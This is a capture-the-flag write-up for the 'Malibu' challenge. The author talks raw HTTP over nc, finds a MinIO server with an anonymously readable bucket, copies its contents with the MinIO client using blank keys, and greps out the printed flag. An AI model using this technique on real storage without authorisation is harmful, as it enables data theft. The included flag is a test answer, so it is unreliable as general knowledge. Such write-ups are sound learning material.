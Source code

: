 ## Malibu
Well probably could've done this much faster had I avoided the age old over-complication. Anyways, we are given a hint before starting up the challenge:
`What do you bring to the beach?`
Following the instructions, we connect with the given `nc challenge.ctf.games PORT`. After hitting enter we see:
```json
HTTP/1.1 400 Bad Request
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request   
```
Seems it is expecting requests. Let's try a simple GET request to see where we are.
-# It does timeout quickly, so try to copy paste the contents for ease
```json
GET / HTTP/1.1
Host: challenge.ctf.games
```
It returns this:
```json
HTTP/1.1 403 Forbidden
Accept-Ranges: bytes
Content-Length: 254
Content-Type: application/xml
Server: MinIO
*snip*
```
Which actually tells us exactly what we need to know. 
**Server: MinIO**
Minio is for s3 Amazon cloud server stuff.
https://github.com/minio/minio

Well any digging into 'Amazon s3' will reveal they use `buckets`. Saving you the headache, this is what they meant in the riddle, something you might bring to the beach. Where I am from, that would be a *pail*, but whatever. Let's try `/bucket`.
```html
GET /bucket HTTP/1.1
Host: challenge.ctf.games

HTTP/1.1 200 OK
Accept-Ranges: bytes
Content-Length: 31114
Content-Type: application/xml
Server: MinIO
Strict-Transport-Security: max-age=31536000; includeSubDomains
Vary: Origin
Vary: Accept-Encoding
X-Amz-Id-2: dd9025bab4ad464b049177c95eb6ebf374d3b3fd1af9251148b658df7ac2e3e8
X-Amz-Request-Id: 17FB69A878A102DE
X-Content-Type-Options: nosniff
X-Ratelimit-Limit: 59
X-Ratelimit-Remaining: 58
X-Xss-Protection: 1; mode=block
Date: Sat, 05 Oct 2024 01:17:34 GMT

<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>bucket</Name><Prefix></Prefix><Marker></Marker><MaxKeys>1000</MaxKeys>
*snip*
```
Nice! The output is way too long to post here. But **200 OK** means we have access to this without credentials. Now I have experience using the minio cli from HTB, although within `/bucket` there was a cli to download.

I installed minioCLI like so:
```sh
wget https://dl.min.io/client/mc/release/linux-amd64/mc
chmod +x mc
sudo mv mc /usr/local/bin/
```
Then added this bucket into the CLI with this:
```sh
mc alias set myminio http://challenge.ctf.games:PORT
Enter Access Key: <blank>
Enter Secret Key: <blank>

Added `myminio` successfully.
```
Then used this command to dump everything onto my kali machine for analysis.
```python
mc cp --recursive myminio/bucket .                   
...PSFCImJog: 249.31 KiB / 249.31 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 69.58 KiB/s 3s
```
Now we have a new directory '**bucket**' created locally. These folders have randomly generated names, so by using grep to search for 'flag{' we can search all of them quickly.
```sh
$ grep -r "flag{" .

*snip*
flag{800e6603e86fe0a68875d3335e0daf81}
*snip*
```
